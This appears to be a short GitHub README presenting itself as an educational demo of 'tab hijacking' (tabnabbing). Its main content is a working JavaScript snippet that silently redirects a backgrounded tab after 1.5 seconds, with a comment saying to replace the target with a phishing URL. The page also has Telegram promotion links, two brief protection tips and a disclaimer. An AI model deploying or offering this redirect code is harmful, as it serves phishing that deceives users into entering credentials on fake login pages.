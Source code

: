 ## 👨🏻‍💻️ Tab-H1j4ck

This educational project shows how **Tab H1j@cking** works — a trick where attackers hijack the **original tab** after a user opens a **new one**. It silently redirects the original tab to a different page (e.g., a fake login screen or misleading content) while the user is distracted.

---

### 🛡️ How to Protect Yourself

- ✅ Don’t trust tabs that open automatically  
- ✅ Always check the URL before logging in  

---

**🌐 Free Hosting & Subdomain**

>http://t.me/mlrumon

---

### 🔁 Example JavaScript Code

You can test it in y0ur 0wn pr0ject:

```js
let redirectTimer = null;

document.addEventListener('visibilitychange', function () {
  if (document.hidden) {
    console.log("⏳ Tab.");
    redirectTimer = setTimeout(() => {
      window.location.href ='http://t.me/mlrumon'; // Replace with phishing URL
    }, 1500); // Redirects after 1.5s
  } else {
    console.log("🛑 Tab is active.");
    clearTimeout(redirectTimer);
  }
});
```

---

**🎥 Educational Demo**

> http://t.me/mlrumon

---

> **⚠️ Warning:** This project is for **educational purposes only**. Never use it for malicious activities. Always obtain **explicit consent** before conducting any security tests.
